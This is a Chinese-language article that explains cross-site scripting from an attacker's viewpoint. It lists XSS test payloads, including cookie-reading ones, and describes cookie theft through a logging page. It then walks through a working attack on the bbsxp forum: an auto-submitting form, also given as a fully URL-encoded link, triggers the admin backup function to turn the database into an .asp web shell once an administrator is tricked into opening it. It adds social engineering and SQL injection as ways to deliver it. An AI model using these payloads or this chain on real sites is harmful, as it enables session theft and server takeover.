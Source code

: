 # 什么是XSS跨站脚本攻击

跨站脚本攻击（Cross-site scripting，通常简称为XSS）是一种网站应用程式的安全漏洞攻击，允许恶意使用者将程式码注入到网页上，其他使用者在观看网页时就会受到影响。这类攻击通常包含了HTML以及使用者端脚本语言。一般而言，跨站脚本攻击漏洞常见于网页允许攻击者通过输入对网页内容进行改写的地方。由于利用巧妙的注入恶意的指令码到由其他域网页的方法，攻击者可得到了更高的特权，窃取机密的网页内容、会话的cookie、以及许多其他的物件。

XSS又叫CSS(Cross Site Script) ，跨站脚本攻击。它指的是恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入其中Web里面的html代码会被执行，从而达到恶意用户的特殊目的。XSS属于被动式的攻击，因为其被动且不好利用，所以许多人常忽略其危害性。

XSS攻击分成两类，一类是来自内部的攻击，主要指的是利用程序自身的漏洞，构造跨站语句，如:dvbbs的showerror.asp存在的跨站漏洞。另一类则是来来自外部的攻击，主要指的自己构造XSS跨站漏洞网页或者寻找非目标机以外的有跨站漏洞的网页。如当我们要渗透一个站点，我们自己构造一个有跨站漏洞的网页，然后构造跨站语句，通过结合其它技术，如社会工程学等，欺骗目标服务器的管理员打开。

传统的跨站利用方式一般都是攻击者先构造一个跨站网页，然后在另一空间里放一个收集cookie的页面，接着结合其它技术让用户打开跨站页面以盗取用户的cookie，以便进一步的攻击。个人认为这种方式太过于落后，对于弊端大家可能都知道，因为即便你收集到了cookie你也未必能进一步渗透进去，多数的cookie里面的密码都是经过加密的，如果想要cookie欺骗的话，同样也要受到其它的条件的限约。而本文提出的另一种思路，则从一定程度上解决上述的问题。对于个人而言，比较成熟的方法是通过跨站构造一个表单，表单的内容则为利用程序的备份功能或者加管理员等功能得到一个高权限。下面我将详细的介绍这种技术。

如果有代码的话比较好办，我们主要看代码里对用户输入的地方和变量有没有做长度和对“<”,“>”,“;”,“’”等字符是否做过滤。还有要注意的是对于标签的闭合，像测试QQ群跨站漏洞的时候，你在标题处输入：

```
<script>alert('test')</script>
```

代码是不会被执行的，因为在源代码里，有其它的标签未闭合，如少了一个`</script>`，这个时候，你只要闭合一个`</script>`，代码就会执行，如：你在标题处输入：

```
</script><script>alert('test')</script>
```

这样就可以弹出一个test 的框。

通常有一些方式可以测试网站是否有正确处理特殊字符：

* `><script>alert(document.cookie)</script>`
* `='><script>alert(document.cookie)</script>`
* `<script>alert(document.cookie)</script>`
* `<script>alert(vulnerable)</script>`
* `%3Cscript%3Ealert('XSS')%3C/script%3E`
* `<script>alert('XSS')</script>`
* `<img src="javascript:alert('XSS')">`
* `<img src="http://xxx.com/yyy.png" onerror="alert('XSS')">`
* `<div style="height:expression(alert('XSS'),1)" />`（这个仅限 IE 有效）

使用者可做一个网页，试着用JavaScript把document.cookie当成参数传过去，然后再把它记录下来，这即是cookie窃取 。

XSS攻击方法有：

* 窃取 cookie 。
* 利用 iframe 或 frame 存取管理页面或后台页面。
* 利用 XMLHttpRequest 存取管理页面或后台页面。

有的时候，当我们对于目标程序找不到可以利用的跨站点，这个时候我们可以利用可以从外部入手，利用我们要拿下的是它的论坛，论坛的安全性做的很好，但其留言板却存在跨站漏洞，这个时候我们可以在留言板里写入跨站语句，跨站语句为以表单的方式向论谈提交提升权限的语句，如上面的bbsxp加asp扩展的语句。当然我们可利用后台的备份功能直接得到一个shell。

例：先上传一个文件linzi.txt，内容如下:

```html
<body onload="javascript:document.forms[0].submit()">
<form action="http://127.0.0.1/bbsxp/admin_fso.asp?menu=bakbf" method="post">
<input value="database/bbsxp.mdb" name="yl" ><input value="database/shit.asp" name="bf" >
</body>
</html>
```

上面的代码是把论坛的数据库备份为shit.asp，留言板存在跨站点如下：http://127.0.0.1/bbsxp/page2.asp?username=

我们构造备份跨站语句如下：

```
http://127.0.0.1/bbsxp/page2.asp?username=%3C%62%6F%64%79%20%6F%6E%6C%6F%61%64%3D%22%6A%61%76%61%73%63%72%69%70%74%3A%64%6F%63%75
%6D%65%6E%74%2E%66%6F%72%6D%73%5B%30%5D%2E%73%75%62%6D%69%74%28%29%22%3E%3C%66%6F%72%6D%20%61
%63%74%69%6F%6E%3D%22%68%74%74%70%3A%2F%2F%31%32%37%2E%30%2E%30%2E%31%2F%62%62%73%78%70%2F%61
%64%6D%69%6E%5F%66%73%6F%2E%61%73%70%3F%6D%65%6E%75%3D%62%61%6B%62%66%22%20%6D%65%74%68%6F%64
%3D%22%70%6F%73%74%22%3E%3C%69%6E%70%75%74%20%76%61%6C%75%65%3D%22%64%61%74%61%62%61%73%65%2F
%62%62%73%78%70%2E%6D%64%62%22%20%6E%61%6D%65%3D%22%79%6C%22%20%3E%3C%69%6E%70%75%74%20%76%61
%6C%75%65%3D%22%64%61%74%61%62%61%73%65%2F%73%68%69%74%2E%61%73%70%22%20%6E%61%6D%65%3D%22%62
%66%22%20%3E%3C%2F%62%6F%64%79%3E%3C%2F%68%74%6D%6C%3E
```

或者构造跨站语句，利用iframe打开一个0大小的linzi.txt。

当管理员打开后，会自动备份得到一个shell。

从上面的实例，我们可以知道，如何欺骗管理打开是一个很重要的步骤，对于欺骗打开，除了社会工程学外，我们可以结合其它的技术，如sql injection.当我们渗透一个网站之时，主站mssql注入漏洞，权限为public,这个时候我们利用update构造跨站语句，如用 iframe打开一个上面的备份得到shell的跨站语句等，同样，我们可以在社会工程学时，利用QQ的其它跨站漏洞等等。
